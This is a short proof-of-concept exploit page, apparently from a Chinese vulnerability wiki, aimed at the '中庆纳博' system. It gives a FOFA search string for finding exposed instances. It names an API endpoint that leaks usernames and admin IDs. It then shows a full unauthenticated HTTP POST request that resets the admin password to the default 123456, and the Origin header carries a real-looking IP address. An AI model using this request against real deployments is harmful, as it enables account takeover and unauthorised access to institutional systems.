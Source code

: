 <languages />

FOFA
----

    "中庆纳博"

POC
---

<translate> 訪問此鏈接，可以看見洩露用戶名，以及管理id。然後可以通過 用戶名重置密碼為默認密碼123456 </translate>

    http://xxxxxx/api/TeacherQuery/SearchTeacherInSiteWithPagerRecords

    POST /api/User/ResetPassword HTTP/1.1
    Host: xxxxxxxxxx
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: application/json, text/plain, /
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json;charset=utf-8
    Content-Length: 23
    Origin: http://117.36.154.34:8010
    DNT: 1
    Connection: close
    Referer: http://xxxxxxxx/default/admin/user/index{"loginName":"admin"}